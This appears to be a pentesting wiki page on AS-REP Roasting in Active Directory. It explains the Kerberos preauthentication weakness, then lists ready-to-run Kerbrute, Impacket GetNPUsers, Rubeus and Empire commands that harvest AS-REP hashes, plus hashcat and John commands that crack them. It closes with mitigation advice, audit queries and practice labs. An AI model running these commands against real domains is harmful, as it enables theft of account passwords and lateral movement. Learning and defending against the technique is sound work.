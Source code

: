 ```yaml
---
description: https://attack.mitre.org/techniques/T1558/004/
---
```


# AS-REP Roasting

**ATT\&CK ID:** [T1558.004](https://attack.mitre.org/techniques/T1558/004/)

**Permissions Required:** <mark style="color:green;">**Valid Domain Account**</mark> | <mark style="color:green;">**None**</mark>

**Description**

Adversaries may reveal credentials of accounts that have disabled Kerberos preauthentication by Password Cracking Kerberos messages.

Preauthentication offers protection against offline Password Cracking. When enabled, a user requesting access to a resource initiates communication with the Domain Controller (DC) by sending an Authentication Server Request (AS-REQ) message with a timestamp that is encrypted with the hash of their password. If and only if the DC is able to successfully decrypt the timestamp with the hash of the user’s password, it will then send an Authentication Server Response (AS-REP) message that contains the Ticket Granting Ticket (TGT) to the user. Part of the AS-REP message is signed with the user’s password.

For each account found without preauthentication, an adversary may send an AS-REQ message without the encrypted timestamp and receive an AS-REP message with TGT data which may be encrypted with an insecure algorithm such as RC4. The recovered encrypted data may be vulnerable to offline Password Cracking attacks similarly to Kerberoasting and expose plaintext credentials.

An account registered to a domain, with or without special privileges, can be abused to list all domain accounts that have preauthentication disabled by utilizing Windows tools like PowerShell with an LDAP filter. Alternatively, the adversary may send an AS-REQ message for each user. If the DC responds without errors, the account does not require preauthentication and the AS-REP message will already contain the encrypted data.

Cracked hashes may enable Persistence, Privilege Escalation, and Lateral Movement via access to Valid Accounts.

AS-REP Roasting takes advantage of Active Directory user accounts that have the option `Do not require Kerberos preauthentication` enabled.

![](<../../../../.gitbook/assets/image (2006).png>)

When this option is enabled we are able to request data from the Active Directory account that is encrypted with the users password. We can take this hash and if successful with cracking, we are able to derive the user accounts password.

## Exploit Techniques (Linux)

### Empire

**URL:** [https://github.com/BC-SECURITY/Empire](https://github.com/BC-SECURITY/Empire)

```bash
# PowerShell
powershell/credentials/rubeus

# C#
csharp/GhostPack/Rubeus
```

### Kerbrute

**URL:** [https://github.com/ropnop/kerbrute](https://github.com/ropnop/kerbrute)

```bash
./kerbrute userenum <Wordlist> --dc <IP> --domain <Domain>
kerbrute userenum names.txt --dc 10.10.10.10 --domain security.local
```

![](<../../../../.gitbook/assets/image (2007).png>)

### Impacket

**URL:** [https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)

```bash
# No domain credential, bruteforce names with a wordlist
GetNPUsers.py  <Domain/> -dc-ip <IP> -usersfile <Wordlist> -format hashcat | grep -v 'Kerberos SessionError:'
GetNPUsers.py  security/ -dc-ip 10.10.10.10 -usersfile names.txt -format hashcat | grep -v 'Kerberos SessionError:'

# Valid domain credentials, extract from all domain accounts
GetNPUsers.py <Domain>/<User>:<Password> -request -format john | grep "$krb5asrep$"
GetNPUsers.py  security.local/moe:'Password123' -request -dc-ip 10.10.10.10 -format john | grep "$krb5asrep$"
```

## Exploit Techniques (Windows)

### Rubeus

**URL:** [https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe)

```bash
# Extract from all domain accounts
.\Rubeus.exe asreproast /simple
.\Rubeus.exe asreproast /format:hashcat /outfile:C:Hashes.txt
```

## Cracking

```bash
# Windows
hashcat64.exe -m 18200 c:Hashes.txt rockyou.txt

# Linux
john --wordlist rockyou.txt Hashes.txt
hashcat -m 18200 -a 3 Hashes.txt rockyou.txt
```

![](<../../../../.gitbook/assets/image (2010).png>)

## Mitigation

* Ensure where possible Domain accounts do not have the`Do not require Kerberos preauthentication` option in Active Directory enabled.
* ensure accounts have exceptionally long passwords and are rotated frequently
* If possible use a stronger encryption standard rather than RC4.

Audit accounts for which this option is enabled:

#### PowerShell

```powershell
Get-ADUser -Filter * -Properties DoesNotRequirePreAuth | Where-Object {$_.DoesNotRequirePreAuth -eq $True -and $_.Enabled -eq $True} | Select-Object 'SamAccountName','DoesNotRequirePreAuth' | Sort-Object 'SamAccountName'
```

#### PowerView

```powershell
Get-DomainUser -PreauthNotRequired -Verbose | select userprincipalname
Get-ASREPHash -UserName '<User>' -Verbose
```

## Labs

{% tabs %}
{% tab title="Spoiler!" %}
```bash
Click the 'Show' tab to reveal lab providers that use this attack vector
```
{% endtab %}

{% tab title="Show" %}
```bash
<TryHackme> # https://tryhackme.com/
VulnNet:Roasted

<HackTheBox> # https://www.hackthebox.eu/
Forest
Sauna

<CyberSecLabs> # https://www.cyberseclabs.co.uk/
Brute
```
{% endtab %}
{% endtabs %}

## References:

* [**https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a**](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
* [**https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/**](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)

***
